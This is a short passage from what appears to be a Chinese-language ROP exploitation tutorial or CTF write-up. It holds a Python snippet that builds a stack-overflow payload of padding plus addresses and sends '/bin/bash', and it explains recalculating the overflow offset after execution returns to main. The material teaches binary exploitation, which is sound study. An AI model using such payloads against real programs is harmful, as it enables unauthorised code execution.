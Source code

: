 ```python
    shellcode1 = 'A'*0x34
    shellcode1 += input_addr
    shellcode1 += main_addr
    shellcode1 += format_addr
    shellcode1 += bin_addr

    print io.read()
    io.sendline(shellcode1)
    io.sendline("/bin/bash")
```

调试发现`"/bin/bash/"`成功写入：

![Alt](img/ROP技术18.png)

此时程序再次从main函数开始执行。由于栈的状态发生了改变，我们需要重新计算溢出的字节数(0x2c)。

![Alt](img/ROP技术19.png)
![Alt](img/ROP技术20.png)
